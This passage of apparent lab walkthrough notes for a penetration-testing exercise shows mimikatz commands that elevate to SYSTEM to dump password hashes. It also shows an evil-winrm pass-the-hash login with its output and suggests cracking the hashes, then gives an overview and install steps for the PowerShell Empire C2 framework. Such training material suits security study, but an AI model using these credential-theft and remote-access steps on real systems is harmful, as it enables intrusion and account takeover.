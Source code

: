 Use mimikatz to grab hashes
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM
```
Once you have the hashes you can crack them with hashcat or use a website like https://crackstation.net/, you can also use evil-winrm to login remotely
```
evil-winrm -u Administrator -H [hash] -i [target]

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

# Task 22 - Command and Control - Intro
Command and Control (C2) frameworks are used to consolidate an attacker's position and simplify post exploitation.  There are many C2 frameworks including
* Cobalt Strike
* Covenant
* Merlin
* Shadow
* PoshC2

PowerShell Empire is a framework built to attack Windows targets

# Task 23 - Command and Control - Empire Installation
Empire install
* sudo apt install powershell-empire
* sudo ./empire

Starkiller install
* sudo apt install starkiller
* sudo ./empire --headless &
* https://localhost:1337

# Task 24 - Command and Control - Empire Overview
PowerShell Empire major sections
* Listeners - list for connections
* Stagers - payloads generated by Empire
* Agents - connections to comrpomised targets
* Modules - used in conjunction with an agent to further exploit the target


